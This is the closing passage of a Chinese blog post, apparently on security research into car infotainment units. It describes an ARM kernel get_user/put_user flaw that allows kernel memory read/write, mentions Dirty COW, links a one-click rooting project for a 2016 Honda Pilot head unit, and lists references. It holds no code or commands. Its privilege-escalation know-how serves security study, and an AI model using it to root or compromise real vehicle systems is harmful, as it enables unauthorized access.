[](https://xzfile.aliyuncs.com/media/upload/picture/20231106200206-4e51611e-7c9c-1.png)

> ARM v6/v7架构的Linux内核中的get\_user/put\_user接口没有验证目标地址,由于硬件架构的更迭,get\_user/put\_user最初用于实现和控制域切换的功能被弃用了,导致任何使用该API的内核代码都可能存在安全隐患.让任意应用来读写内核内存,造成权限泄漏

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195635-88faaea2-7c9b-1.png)

##### CVE-2016-5195

> 脏牛提权还是无处不在

比如该项目实现了2016款本田Pilot车机的ROOT提权 - [https://github.com/jersacct/2016PilotOneClick](https://github.com/jersacct/2016PilotOneClick)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195710-9dcf8dd4-7c9b-1.png)

## 结束语

本文主要还是围绕着车机IVI来进行漏洞挖掘讨论的，车联网安全因为设备的问题确实难以普及，等待着什么时候有模拟真实车机环境的靶场环境出现~

## 参考链接

-   [https://developer.android.com/studio/command-line/adb?hl=zh-cn](https://developer.android.com/studio/command-line/adb?hl=zh-cn)
-   [https://club.autohome.com.cn/bbs/thread/e70a39dc0bb6d265/106799924-1.html](https://club.autohome.com.cn/bbs/thread/e70a39dc0bb6d265/106799924-1.html)
-   [https://www.bilibili.com/read/cv17224960/](https://www.bilibili.com/read/cv17224960/)
-   [https://zhuanlan.zhihu.com/p/528507456](https://zhuanlan.zhihu.com/p/528507456)
-   [https://blog.nsfocus.net/tbox/](https://blog.nsfocus.net/tbox/)
-   [https://www.anquanke.com/post/id/218396](https://www.anquanke.com/post/id/218396)
-   [https://bbs.kanxue.com/thread-276806.htm](https://bbs.kanxue.com/thread-276806.htm)
-   [https://bbs.kanxue.com/thread-271306.htm](https://bbs.kanxue.com/thread-271306.htm)
-   [https://www.blackhat.com/docs/us-17/thursday/us-17-Nie-Free-Fall-Hacking-Tesla-From-Wireless-To-CAN-Bus-wp.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Nie-Free-Fall-Hacking-Tesla-From-Wireless-To-CAN-Bus-wp.pdf)
-   [https://www.cnblogs.com/zhibing/p/16979148.html](https://www.cnblogs.com/zhibing/p/16979148.html)
-   [https://www.cnblogs.com/zhibing/p/16965618.html](https://www.cnblogs.com/zhibing/p/16965618.html)
-   [https://www.cnblogs.com/Cl0ud/p/17643514.html](https://www.cnblogs.com/Cl0ud/p/17643514.html)
-   [https://delikely.github.io/2021/06/04/U%E7%9B%98%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E8%8E%B7%E5%8F%96%E8%BD%A6%E6%9C%BASHELL/](https://delikely.github.io/2021/06/04/U%E7%9B%98%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E8%8E%B7%E5%8F%96%E8%BD%A6%E6%9C%BASHELL/)
-   [https://billsaul.gitee.io/pages/a79676](https://billsaul.gitee.io/pages/a79676)
-   [https://github.com/jersacct/2016PilotOneClick](https://github.com/jersacct/2016PilotOneClick)
-   [https://www.demonk.cn/2017/08/20/2016-e9-9b-85-e9-98-81-e8-bd-a6-e6-9c-baroot-e5-ae-9e-e6-88-98/](https://www.demonk.cn/2017/08/20/2016-e9-9b-85-e9-98-81-e8-bd-a6-e6-9c-baroot-e5-ae-9e-e6-88-98/)
